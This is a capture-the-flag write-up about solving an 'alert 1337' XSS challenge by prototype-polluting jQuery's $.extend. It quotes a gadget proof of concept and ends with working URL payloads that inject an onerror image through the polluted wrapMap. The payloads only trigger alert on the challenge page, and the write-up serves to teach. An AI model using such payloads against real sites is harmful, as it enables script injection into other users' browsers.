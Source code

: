 ```yaml
---
layout: post
title:  "alert 1337 - jquery prototype pollution"
tags:  xss, prototype pollution

---
```


challenge here 
https://msrkp.github.io/

code
```
<script src="https://code.jquery.com/jquery-1.12.4.js"></script>
<script>
	var HoF = {0:"@st98_",1: "@SecurityMB",3:"@0xParrot",4:"@pgt_r2ursystem",5:"You ?"};
	
	function escapeHTML(input){
		return input.replace(/</g,'&lt;').replace(/>/g,'&gt;')
	}
	var params = new URLSearchParams(window.location.search);
	var name = params.get('name');
	var paramsJson = $.extend(true, HoF, JSON.parse(name));
	$.each(paramsJson,function(key,value){
		$(`<li id='name'>${escapeHTML(value)}</li>`).appendTo('#HoF')
	});
</script>
```

The code is simple. `$.extend` is used. So there is prototype pollution. We need to use it.

First, I thought the challenge is to use pp to bypass `escapeHTML`. So I spend hours trying to figure out how do pp the function. But no luck. I even thought that I can use `}` to pair with the `${`.

After some rest. I checked this git. `https://github.com/BlackFan/client-side-prototype-pollution`

Here we can find many poc about pp. Since the code here is jQuery, I'll try to figure out how the payloads works.

I choose this one. `https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md`

```
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```
After debugging it, I know that we need to pp jquery functions. So my thoughts were wrong.
So I try to debug again. Line by line. Try to find out what to pp.

in function `buildFragment`,
```
} else {
				tmp = tmp || safe.appendChild( context.createElement( "div" ) );

				// Deserialize a standard representation
				tag = ( rtagName.exec( elem ) || [ "", "" ] )[ 1 ].toLowerCase();
				wrap = wrapMap[ tag ] || wrapMap._default;

				tmp.innerHTML = wrap[ 1 ] + jQuery.htmlPrefilter( elem ) + wrap[ 2 ];
```

We can pp wrapMap. So our evil code can be injected into tmp.
`tag` is `li`, `li` not in `wrapMap`. So after our pp, `wrapMap['li']` is what we control.
Then we can control `wrap[1]`. Then `tmp.innerHTML`. In the end, we get the alert.
```https://msrkp.github.io/?name={ %22__proto__%22:{ %22li%22:{ %221%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}```
And this one.
```https://msrkp.github.io/?name={ %22__proto__%22:{ %22li%22:{ %222%22:%22%3Cimg%20src%20onerror=alert(1337)%3E%22}},%22length%22:1}```
strip the space.


